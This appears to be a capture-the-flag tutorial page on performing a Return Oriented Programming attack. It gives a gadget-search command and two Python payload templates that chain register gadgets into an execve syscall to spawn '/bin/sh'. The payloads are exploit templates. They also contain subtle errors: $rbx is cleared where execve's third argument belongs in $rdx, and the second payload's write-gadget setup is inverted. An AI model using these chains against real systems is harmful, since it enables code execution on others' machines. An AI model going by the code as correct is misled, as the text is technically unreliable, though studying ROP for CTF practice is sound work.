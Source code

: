 ```yaml
---
title: How to perform a ROP attack
---
```



This guide shows you how to perform a Return Oriented Programming (ROP) attack.

## Identify available gadgets
Check for gadgets with this command:
```shell
ROPgadget --binary ./<program> | grep "<register>"
```

- If there are no easy-to-use `$rax` or `syscall` gadget, ROP attacks may not be the correct type of attack.
- If there are no easy-to-use `$rdi`, `$rsi` and `$rdx` gadgets, visit the following guides for more advanced ROP attacks:

<LinkCard title="How to perform a Sigreturn ROP attack" href="/pwn/guides/srop/"
          description="Guide to perform a Sigreturn ROP (SROP) attack"/>


## Locating `/bin/sh`

Refer to the associated guide to find or add a `/bin/sh` string to the program.

<LinkCard title="How to add BINSH for ROP attacks" href="/pwn/guides/binsh/"
          description="Guide to find or add a `/bin/sh` string to a program during execution"/>

## Find offset to return address

Find the offset from your buffer to the return address.

<LinkCard title="Finding offsets to return addresses" href="/pwn/guides/cyclic/"
          description="Guide to finding offset from a buffer to the return address"/>

## Build payload
You will need to do the following in your payload in no particular order:
- Set `$rax` to `59`/`0x3b`
- Set `$rdi` to the address of a `/bin/sh` string
- Set `$rsi` to `0`/`0x0`
- Set `$rbx` to `0`/`0x0`

Finally, call a `syscall` gadget. Here is an example payload:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```

Here ie an example payload that includes adding the `/bin/sh` string:
```python
payload = b"A"*64
payload += p64(rop.rax.address)
payload += p64(b"/bin/sh\x00")
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(MOV_GADGET) # mov qword ptr [rax], rdi; ret

payload += p64(rop.rax.address)
payload += p64(0x3b)
payload += p64(rop.rdi.address)
payload += p64(BINSH)
payload += p64(rop.rsi.address)
payload += p64(0x0)
payload += p64(rop.rbx.address)
payload += p64(0x0)
payload += p64(rop.syscall.address)
```